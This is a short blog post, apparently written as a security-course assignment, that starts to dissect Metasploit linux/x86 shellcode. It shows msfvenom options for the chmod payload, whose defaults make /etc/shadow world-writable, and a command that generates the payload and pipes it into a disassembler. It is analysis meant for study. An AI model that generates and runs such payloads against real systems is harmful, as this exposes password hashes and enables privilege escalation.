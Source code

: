 ```yaml
---
layout: single 
classes: wide
title:  "Metasploit Shellcode Analysis"
date:   2020-03-19 11:08:36 +0800
categories: jekyll update
---
```


The next assigment is to dissecting the functionality of three shellcode samples created using MSF payloads for linux/x86 using GDB/ndisasm/libemu.

## Requirements

- Take up at least 3 shellcode samples created using Msfpayload for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode

## 1. linux/x86/chmod

This shellcode will runs `chmod` on specified file with specified mode.
To get the list options of `linux/x86/chmod` see below.
As default the parameter `FILE` is set to `/etc/shadow` and parameter `MODE` is set to `0666`.

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/msfvenom$ msfvenom -p linux/x86/chmod --list-options
Options for payload/linux/x86/chmod:
=========================

       Name: Linux Chmod
     Module: payload/linux/x86/chmod
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 36
       Rank: Normal

Provided by:
    kris katterjohn <katterjohn@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode
{% endhighlight %}

let's try generate the `chmod` shellcode and pipe it into `ndiasasm` to generate the asm code:

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/msfvenom$ msfvenom -p linux/x86/chmod -f raw | ndisasm -u -
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes
{% endhighlight %}
